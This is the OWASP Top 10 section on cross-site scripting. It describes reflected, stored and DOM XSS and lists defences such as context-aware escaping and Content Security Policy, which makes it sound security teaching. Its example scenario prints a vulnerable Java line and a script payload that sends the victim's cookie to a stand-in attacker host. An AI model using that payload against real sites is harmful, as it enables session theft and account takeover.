

Is the Application Vulnerable?
There are three forms of XSS, usually targeting users' browsers:
Reflected XSS:The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
Stored XSS:The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
DOM XSS:JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.
Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.
How to Prevent
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:
•Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
•Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSSvulnerabilities. TheOWASP Cheat Sheet 'XSS Prevention'has details on the required data escaping techniques.
•Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in theOWASP Cheat Sheet 'DOM based XSS Prevention'.
•Enabling aContent Security Policy (CSP)is a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).
Example Attack Scenario
Scenario 1: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:
(String) page += "<input name='creditcard' type='TEXT'value='" + request.getParameter("CC") + "'>";
The attacker modifies the ‘CC’ parameter in the browser to:
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
Note:Attackers can use XSS to defeat anyautomated Cross-Site Request Forgery ( CSRF) defense the application might employ.